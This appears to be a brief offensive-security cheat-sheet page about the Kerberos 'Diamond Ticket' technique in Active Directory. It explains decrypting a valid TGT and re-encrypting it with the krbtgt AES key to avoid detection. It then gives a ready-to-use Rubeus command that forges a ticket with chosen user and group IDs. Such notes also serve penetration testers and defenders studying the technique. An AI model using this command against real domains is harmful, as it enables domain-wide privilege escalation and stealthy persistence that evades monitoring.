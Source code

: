 # Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account which makes it less detectable. Diamond Ticket is more about repackaging than forging. It’s a lot more OpSec safe than Golden Ticket.

## Modify The Ticket

{% code overflow="wrap" %}
```powershell
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```
{% endcode %}

